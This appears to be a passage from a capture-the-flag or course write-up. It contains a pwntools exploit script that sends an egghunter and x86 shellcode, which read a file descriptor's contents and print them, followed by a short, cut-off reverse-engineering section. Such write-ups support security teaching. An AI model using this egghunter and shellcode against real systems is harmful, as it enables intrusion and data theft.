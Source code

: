 ```
p.recvuntil('new stack ')

stack_addr = str(p.recvline().rstrip(), 'utf-8')

egghunter = asm(""" mov eax, 0x90909090
                    mov edi, {}
                    incr:
                        scasd
                        jnz incr
                        scasd
                        jnz incr
                    jmp edi
                    """.format(stack_addr))

p.sendline(egghunter)

# we check for 8 nops, so having 12 is enough
shellcode = b'\x90'*12
shellcode += asm("""sub esp, 0x3E8
                    xor eax, eax
                    xor ebx, ebx
                    xor edx, edx
                    mov al, 0x3
                    mov bx, 0x3E8
                    mov ecx, esp
                    mov dl, 0xFF
                    int 0x80

                    xchg eax, edx
                    mov al, 0x4
                    mov bx, 0x1
                    int 0x80

                    add esp, 0x3E8
                    """)

p.sendline(shellcode)

p.interactive()
```

chall2 (reverse engineering challenge)
===========================

General overview of problems faced
-------------------------------------
Didn't have any problems with this task. One observation I made is no matter what I did the compiled version of this code would have different assembly code than what was given. For example the comparison being made for the loop would always be a check if the variable was less than 10 rather than comparing to 9 like the given screenshot. That said, behaviour is still the same.

Reversed C Code
------------------
